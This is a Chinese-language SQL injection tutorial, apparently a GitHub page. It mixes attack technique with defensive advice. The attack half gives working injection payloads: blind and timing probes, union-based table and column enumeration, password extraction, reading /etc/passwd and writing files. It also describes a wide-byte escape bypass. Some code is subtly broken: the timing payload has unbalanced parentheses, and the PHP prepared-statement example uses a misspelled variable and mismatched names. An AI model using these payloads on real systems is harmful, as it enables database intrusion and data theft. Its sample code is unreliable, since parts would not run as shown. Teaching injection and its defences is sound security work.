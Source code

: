 # SQL Injection

## 简介

SQL Injection，即SQL注入，是指攻击者利用服务端对用户输入处理的漏洞，输入一些SQL代码，通过闭合引号等手段使服务器将其作为SQL语句而执行，从而造成攻击者对目标数据库的非授权访问，可能产生数据泄露、损毁、篡改等。

## 姿势

### 错误回显注入

如果Web服务器开启了错误回显，通过对输入内容的报错回显可以推理SQL逻辑从而很容易构造Payload。

### 盲注

多数时候Web服务器并不会提供错误的回显，这时候我们需要借用盲注的技巧。

在盲注的情况下，攻击者需要一种手段来确认输入的Payload所产生的影响，而观察页面的变化是最常用的参照，比如以下Payload：

```js
业务URL：http://example.com/news.php?id=10
SQL逻辑：SELECT title, description, body FROM news WHERE id = 10

攻击Payload: ?id=10 and 1=2，造成查询为空，页面可能为空
```

当然以上Payload显示的页面异常也有可能是服务端检测到了非法Payload而做了处理的结果，所以确认注入点还需要后面的步骤。

```js
?id = 10 and 1=1返回页面正常说明确实有问题。
```

### Timing Attack

通过注入一些执行起来花费时间的SQL语句，观察Web请求的响应时间变化也可以判断是否存在SQL注入漏洞。

常用的函数：

MySQL：

```
benchmark(times,function)，benchmark某个函数function times次数
如benchmark(1000000, encode('hello','goodbye'))
sleep(seconds)，休眠seconds秒。
```

举例一个Payload：

```
10 union select if(substring(current,1,1)=char(119),benchmark(5000000,md5(1)) from (select database() as current) as tbl;
```

## 数据库攻击技巧

### 便利函数

database\(\) - 返回当前数据库名。

system\_user\(\) - 返回数据库的系统用户。

current\_user\(\) - 返回当前用户身份。

version\(\) - 数据库版本号。

### 常见技巧

猜解数据库版本：?id = 5 and substring\(@@version,1,1\)=4

判断表是否存在：?id = 5 union all select 1,2,3 from 表名

判断表中某列是否存在：?id = 5 union all select 1,2,列名 from 某表

具体猜解列中数据：?id = 5 and ascii\(substring\(\(select passwd from admin limit 0,1\),1,1\)&gt;64\) **二分法**

读取文件：?id = 5 union select 1,2,load\_file\('/etc/passwd'\) **需要读权限**

写文件：?id = 5 union select ... into outfile '/file' 或者 into dumpfile 'file'，dumpfile相比outfile更适合二进制文件。

### 攻击存储过程

如sqlserver中的`xp_cmdshell`就是一个存储过程。存储过程一般提前定义，需要通过`call`或者`execute`调用。

### 编码利用

当数据库使用宽字节编码时，Web语言可能考虑不到，会将双字节字符认为是两个字符，而多数情况下为了安全起见，会开启`magic_quotes_gpc`或者使用`addslashes()`函数对特殊字符进行转义，比如单引号和双引号。这里我们注意单引号可以表示为`0x27`，反斜线可以表示为`0x5c`，当攻击者输入`0xbf27 or 1=1`时，Web端会将认为`0xbf27`是两个字符，经过转义，就变成了`0xbf5c27`，这个数据就会被交送数据库处理。而在双字节编码的数据库看来，`0xbf5c`就是一个汉字，于是攻击者成功“吃掉了”反斜线并闭合双引号。

### 攻击思路

首先确认注入点存在

通过注入点尝试收集服务端SQL信息如version\(\)、current\_user\(\)。

**确认列数**

```
?id = -999 union select 1,2,3,4,5    // 通过二分法确认长度
```

**确认所有表**

```
?id = -999 union select 1,2,3,4,group_concat(distinct(table_schema)) from information_schema.tables
```

**确认某表所有列**

```
?id = -999 union select 1,2,3,4,group_concat(distinct(table_name)) from information_schema.tables where table_schema=database();
```

**提取数据**

做相应查询。

### 防御

#### 使用预编译语句

预编译语句事实上是对变量的一种绑定，举例Java中的预编译：

```java
String custname = request.getParameter("customerName"); // 这里的custname需要好好被检查
// custname的检查
String query = "SELECT account_balance FROM user_data WHERE username = ?";

PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1,custname);
ResultSet results = pstmt.executeQuery();
```

在`query`中，我们利用`?`替代查询参数，使得攻击者无法改变SQL逻辑，即便是插入了`abc' or '1'='1`尝试闭合引号也只会被当做username的参数执行。再举一个PHP的例子：

```php
$query = "INSERT INTO myCity (Name, CountryCode, District) VALUES (?,?,?)";
$stmt = $mysqli->prepare($qeury);
$stmt->bind_param("sss",$var1,$var2,$var3);
$val1 = 'var1';
$val2 = 'var2';
$val3 = 'var3';
$stmt->execute();
```

通过对输入变量与查询参数的绑定，将特定的输入限制在参数内，不会使得SQL语义产生变化。

#### 使用存储过程

Java中使用存储过程的例子：

```java
String custname = request.getParameter("customerName"); // check please
try{
    CallableStatement cs = connection.prepareCall("{call sp_getAccountBalance(?)}");
    cs.setString(1, custname);
    ResultSet results = cs.executeQuery();
} catch (SQLException se) {
    // log error
}
```

对比预编译语句的使用发现有些类似，不过这里需要预先定义存储过程`sp_getAccountBalance(?)`，然后使用`call`调用存储过程，在进行变量绑定。不过我们还是需要避免在存储过程中使用动态SQL语句，否则也有可能出现SQL注入。

#### 检查数据类型

很多时候SQL查询需要的只是一个数字型的id，所以我们可以通过限制数据类型过滤掉大部分攻击。

#### 使用安全的函数

各种Web语言都会实现一些编码函数，帮助对抗有可能出现的攻击，比如`addslashes()`，`mysql_real_escape_string()`以及`mysql_escape_string()`等等。中间函数考虑到数据库连接的编码，因此相比其他两种比较不可能出现款字节注入漏洞。基本上就是对特殊字符利用反斜杠转义处理。

